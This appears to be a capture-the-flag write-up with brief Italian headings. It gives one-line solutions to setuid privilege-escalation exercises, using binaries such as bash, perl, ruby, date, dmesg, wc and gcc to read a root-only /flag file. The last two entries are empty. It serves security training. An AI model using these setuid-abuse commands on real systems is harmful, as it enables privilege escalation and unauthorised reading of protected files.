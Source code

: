 ## Esercizio 40 mv
```
mv /bin/cat /bin/mv
/challenge/babysuid_level40
mv /flag
```

## Esercizio 41 perl
```
perl -pe 'END {close ARGV}' /flag
```

## Esercizio 42 python
```
python /flag 
```

## Esercizio 43 ruby
```
echo “puts File.read(‘/flag’)” >> a.rb && ruby a.rb 
```

## Esercizio 44 bash
```
bash -p 
root# cat /flag 
```

## Esercizio 45 date 
```
date -f /flag
```

## Esercizio 46 dmesg
```
dmesg -F /flag
```

## Esercizio 47 wc
```
wc --files0-from=/flag
```

## Esercizio 48 gcc
```
gcc -x c -E /flag 
```

## Esercizio 49 as 
```
as /flag
```

## Esercizio 50 wget 
```
```

## Esercizio 51
```
```